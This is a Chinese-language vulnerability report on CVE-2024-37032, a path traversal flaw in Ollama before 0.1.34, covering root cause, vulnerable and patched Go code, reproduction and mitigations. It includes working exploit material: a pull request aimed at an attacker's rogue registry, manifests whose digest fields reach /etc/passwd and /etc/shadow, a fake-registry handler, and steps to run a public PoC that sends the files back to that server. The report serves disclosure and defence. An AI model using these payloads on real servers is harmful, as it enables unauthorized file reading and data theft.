


# CVE-2024-37032 Ollama远程代码执行漏洞分析报告-先知社区

> **来源**: https://xz.aliyun.com/news/17963  
> **文章ID**: 17963

---

## 1. 漏洞概述

|  |  |
| --- | --- |
| 漏洞信息 | 详情 |
| 漏洞编号 | CVE-2024-37032 |
| 漏洞名称 | Ollama 远程代码执行漏洞 |
| 漏洞类型 | 远程代码执行（RCE） |
| 发现时间 | 2024年5月5日 |
| 公开时间 | 2024年6月24日 |
| 漏洞评级 | 高危 |
| CVSS 3.1分数 | 9.1（严重） |
| 影响范围 | Ollama < 0.1.34 |
| 修复版本 | Ollama 0.1.34及更高版本 |

## 2. 受影响产品介绍

Ollama是一个专为在本地环境中运行和定制大型语言模型（LLM）而设计的开源工具。它提供了一个简单高效的接口，用于创建、运行和管理AI模型，同时还提供了一个丰富的预构建模型库，可以轻松集成到各种应用程序中。Ollama的主要目标是使大型语言模型的部署和交互变得简单，无论是对于开发者还是对于终端用户。

## 3. 漏洞详情

### 3.1 漏洞原理

该漏洞允许通过路径遍历任意写入或读取文件。具体来说，漏洞存在于Ollama对digest字段验证不正确的问题上，服务器错误地将有效负载解释为合法的文件路径，攻击者可在digest字段中包含路径遍历payload的恶意清单文件，利用该漏洞实现任意文件读取/写入或导致远程代码执行。

### 3.2 漏洞技术细节

攻击者可以通过以下步骤利用此漏洞：

1. 在没有身份验证的Ollama服务器上，攻击者可通过操控服务器接口下载恶意文件
2. 通过模拟Ollama请求，构造一个恶意模型
3. 在digest字段设置路径穿越payload，例如：`../../../../../../../../../../../../../etc/passwd`
4. 利用Ollama的API接口（如`/api/pull`和`/api/push`）触发漏洞

漏洞的关键在于服务端对digest字段缺乏有效的验证和过滤，允许跨目录访问系统敏感文件。

### 3.3 漏洞利用方式

攻击者可以通过构造特制的请求，利用此漏洞执行以下操作：

* 任意文件读取：读取系统敏感文件（如/etc/passwd）
* 任意文件写入：写入恶意文件到目标系统
* 远程代码执行：通过写入特定文件位置实现代码执行

### 3.4 Payload作用原理

#### 3.4.1 攻击基础架构

攻击者需要两个主要组件来实施完整的攻击：

1. **目标服务器**：运行有漏洞版本的Ollama（<0.1.34）
2. **恶意服务器**：作为"rogue registry"（恶意注册表服务器），用于响应Ollama的请求

#### 3.4.2 Payload的组成部分

完整的漏洞利用payload由两部分组成：

1. **发送到目标Ollama的请求**：向Ollama API发送的JSON请求
2. **恶意服务器的响应**：包含路径遍历序列的manifest文件

#### 3.4.3 攻击流程和Payload执行机制

这种攻击的完整执行流程如下：

1. **初始化请求**：  
   攻击者向Ollama的`/api/pull`端点发送请求，要求它从恶意服务器获取"模型"：

```
{
  "name": "攻击者服务器IP/rogue/bi0x",
  "insecure": true
}
```

其中：

* `name`字段指向攻击者控制的恶意服务器
* `insecure: true`参数允许不验证SSL证书，便于攻击执行

1. **Ollama响应**：

* Ollama接收请求并尝试连接到指定的恶意服务器
* 根据Docker Registry API规范，它请求manifest文件

1. **恶意服务器返回Payload**：  
   恶意服务器返回一个特制的manifest文件，关键部分包含路径遍历：

```
{
  "schemaVersion": 2,
  "mediaType": "application/vnd.docker.distribution.manifest.v2+json",
  "config": {
    "mediaType": "application/vnd.docker.container.image.v1+json",
    "digest": "../../../../../../../../../../../../../etc/passwd",
    "size": 10
  },
  "layers": [
    {
      "mediaType": "application/vnd.ollama.image.license",
      "digest": "../../../../../../../../../../../../../../../../../../../tmp/notfoundfile",
      "size": 10
    },
    {
      "mediaType": "application/vnd.docker.distribution.manifest.v2+json",
      "digest": "../../../../../../../../../../../../../etc/passwd",
      "size": 10
    }
  ]
}
```

1. **漏洞触发**：

* Ollama处理收到的manifest，并尝试访问`digest`字段指定的文件
* 由于缺乏对`digest`字段的格式验证，它将路径遍历序列（如`../`）作为合法路径的一部分处理
* 路径遍历使得Ollama访问了预期目录之外的系统文件（如`/etc/passwd`）

1. **数据获取**：

```
{
  "name": "攻击者服务器IP/rogue/bi0x",
  "insecure": true
}
```

* 攻击者随后发送`/api/push`请求，触发Ollama将读取的文件内容发送回恶意服务器

#### 3.4.4 为什么Payload能够成功执行

Payload能够成功执行的原因有以下几点：

1. **输入验证缺失**：

* Ollama没有验证`digest`字段是否符合SHA256格式（应为64位十六进制字符）
* 缺少对路径遍历序列的检测和过滤

1. **Docker Registry API的信任**：

* Ollama信任外部Registry返回的manifest数据，未进行足够的安全检查
* `insecure: true`参数绕过了SSL验证，使攻击者能轻松架设恶意服务器

1. **文件路径构建的缺陷**：

* 未处理的`digest`字段直接参与文件路径构建
* 路径遍历序列在文件路径解析时生效，导致访问到系统任意文件

1. **API设计问题**：

* `/api/push`接口在未做充分身份验证的情况下可将内部文件内容发送到外部

通过这种精心设计的payload，攻击者成功地将一个看似无害的模型拉取请求转变为对系统文件的未授权访问，从而实现了远程文件读取甚至可能的远程代码执行。

### 3.5 漏洞源码分析

#### 3.5.1 问题代码定位

经过对Ollama源代码的分析，该漏洞的核心问题出现在服务器处理模块中的modelpath.go文件中。根据NVD的官方描述和GitHub提交记录，漏洞主要存在于处理digest字段的代码部分，主要是`GetBlobsPath`函数。

漏洞的根本原因是Ollama在处理模型路径时，没有对digest字段的格式进行严格验证。Ollama应该要求digest是符合SHA256格式的字符串（必须是64位十六进制数字），但漏洞版本中缺乏这种验证。

#### 3.5.2 脆弱代码

漏洞版本（v0.1.33及之前）中的问题代码片段如下：

```
// 存在漏洞的代码
func GetBlobsPath(digest string) (string, error) {
    dir, err := modelsDir()
    if err != nil {
        return "", err
    }

    digest = strings.ReplaceAll(digest, ":", "-")
    path := filepath.Join(dir, "blobs", digest)
    dirPath := filepath.Dir(path)
    if digest == "" {
        dirPath = path
    }

    if err := os.MkdirAll(dirPath, 0o755); err != nil {
        return "", err
    }

    return path, nil
}
```

这段代码的问题在于：

1. 没有验证digest是否符合SHA256格式（应为64位十六进制字符）
2. 直接将未经验证的digest拼接到文件路径中

这种实现使攻击者能够在digest参数中注入路径遍历序列，例如`../../../../../../../../../etc/passwd`，导致Ollama读取系统中的敏感文件，甚至写入恶意文件实现远程代码执行。

#### 3.5.3 修复分析

Ollama在v0.1.34版本中修复了这个漏洞，修复提交为[2a21363bb756a7341d3d577f098583865bd7603f](https://github.com/ollama/ollama/commit/2a21363bb756a7341d3d577f098583865bd7603f)。修复的核心思路是增加了对digest格式的严格验证。  


修复后的代码：

```
// 修复后的代码
func GetBlobsPath(digest string) (string, error) {
    dir, err := modelsDir()
    if err != nil {
        return "", err
    }

    // only accept actual sha256 digests
    pattern := "^sha256[:-][0-9a-fA-F]{64}$"
    re := regexp.MustCompile(pattern)
    if err != nil {
        return "", err
    }

    if digest != "" && !re.MatchString(digest) {
        return "", ErrInvalidDigestFormat
    }

    digest = strings.ReplaceAll(digest, ":", "-")
    path := filepath.Join(dir, "blobs", digest)
    dirPath := filepath.Dir(path)
    if digest == "" {
        dirPath = path
    }

    if err := os.MkdirAll(dirPath, 0o755); err != nil {
        return "", err
    }

    return path, nil
}
```

这种修复方法通过正则匹配的方式有效防范了路径遍历攻击，确保了digest是合法的SHA256格式（长度为64的十六进制字符串）

## 4. 漏洞影响

### 4.1 影响范围

此漏洞影响所有Ollama 0.1.34版本以下的系统。根据奇安信鹰图资产测绘平台数据显示：

* 国内风险资产总数：约3,955个，关联IP总数：994个
* 全球风险资产总数：约5,960个，关联IP总数：1,581个

### 4.2 潜在危害

该漏洞的潜在危害包括但不限于：

* **数据泄露**：攻击者可以通过执行任意代码，窃取敏感数据
* **系统瘫痪**：恶意代码可能导致系统崩溃或服务中断
* **权限提升**：攻击者可能获取系统高级权限
* **进一步渗透**：攻击者可以利用该漏洞作为跳板，进一步渗透到内部网络

## 5. 复现环境与验证

### 5.1 环境搭建

可以使用以下Docker命令搭建漏洞环境：

```
docker run -v ollama:/root/.ollama -p 11434:11434 --name ollama ollama/ollama:0.1.33
```

### 5.2 漏洞验证

可以通过以下步骤验证漏洞：

1. 克隆利用代码：`git clone https://github.com/Bi0x/CVE-2024-37032.git`
2. 修改poc.py和server.py中的host变量和target\_url变量为目标IP
3. 运行server.py：`python server.py`
4. 运行poc.py：`python poc.py`
5. 验证是否能够读取目标系统的/etc/passwd文件

### 5.3 漏洞利用代码片段

攻击者可以构造以下类型的请求来利用漏洞：

```
# 模拟Ollama清单文件请求，设置路径穿越payload
@app.get("/v2/rogue/test/manifests/latest")
async def fake_manifests():
    return {
        "schemaVersion": 2,
        "mediaType": "application/vnd.docker.distribution.manifest.v2+json",
        "config": {
            "mediaType": "application/vnd.docker.container.image.v1+json",
            "digest": "../../../../../../../../../../../../../etc/shadow",
            "size": 10
        },
        "layers": [
            {
                "mediaType": "application/vnd.ollama.image.license",
                "digest": "../../../../../../../../../../../../../../../../../../../tmp/notfoundfile",
                "size": 10
            },
            {
                "mediaType": "application/vnd.docker.distribution.manifest.v2+json",
                "digest": "../../../../../../../../../../../../../etc/passwd",
                "size": 10
            }
        ]
    }
```

### 5.4 运行结果



可以看到目标主机将敏感信息返回到了恶意服务器

## 6. 修复方案

### 6.1 官方修复

Ollama开发团队在接到漏洞报告后迅速作出响应：

* 2024年5月5日 – Wiz Research向Ollama报告了该问题
* 2024年5月5日 – Ollama确认收到报告
* 2024年5月5日 – Ollama通知Wiz Research他们已向GitHub提交修复
* 2024年5月8日 – Ollama发布了修补版本
* 2024年6月24日 – Wiz Research发布了关于该问题的博客

### 6.2 临时缓解措施

如无法立即升级到最新版本，建议采取以下临时措施：

1. 限制Ollama服务的网络访问，避免将其暴露在公网上
2. 在防火墙层面限制对Ollama服务端口（默认11434）的访问
3. 实施网络分段，隔离Ollama服务

### 6.3 建议措施

为了防范CVE-2024-37032漏洞带来的风险，建议采取以下措施：

1. **及时更新**：确保Ollama系统及时更新到最新版本0.1.34或更高版本
2. **加强监控**：部署有效的安全监控系统，及时发现并响应异常行为
3. **权限控制**：严格限制系统权限，避免攻击者利用低权限账户进行攻击
4. **安全培训**：加强员工的安全意识培训，提高整体安全防护水平

## 7. 参考资料

1. [Wiz Research Blog - Probllama: Ollama Vulnerability CVE-2024-37032](https://www.wiz.io/blog/probllama-ollama-vulnerability-cve-2024-37032)
2. [GitHub Advisory - GHSA-8hqg-whrw-pv92](https://github.com/advisories/GHSA-8hqg-whrw-pv92)
3. [Ollama Fix Commit](https://github.com/ollama/ollama/commit/2a21363bb756a7341d3d577f098583865bd7603f)
4. [Ollama Pull Request](https://github.com/ollama/ollama/pull/4175)
5. [Ollama Releases](https://github.com/ollama/ollama/releases)
6. [validate the format of the digest when getting the model path (#4175) · ollama/ollama@2a21363](https://github.com/ollama/ollama/commit/2a21363bb756a7341d3d577f098583865bd7603f)
7. [Comparing v0.1.33...v0.1.34 · ollama/ollama](https://github.com/ollama/ollama/compare/v0.1.33...v0.1.34)
8. [Bi0x/CVE-2024-37032: Path traversal in Ollama with rogue registry server](https://github.com/Bi0x/CVE-2024-37032)
